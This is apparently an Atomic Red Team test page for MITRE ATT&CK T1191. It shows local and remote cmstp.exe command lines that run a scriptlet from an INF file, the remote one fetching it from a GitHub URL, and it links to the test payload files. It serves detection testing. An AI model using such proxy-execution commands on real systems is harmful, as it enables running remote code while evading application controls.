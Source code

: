 ## CMSTP

MITRE ATT&CK Technique: [T1191](https://attack.mitre.org/wiki/Technique/T1191)

### Scriptlet execution

Local:

    cmstp.exe /s CMSTP.inf

Remote:

    cmstp.exe /ni /s https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/CMSTP.inf

## Test Script

[CMSTP.INF](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/CMSTP.inf)

[CMSTP.SCT](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/CMSTP.sct)

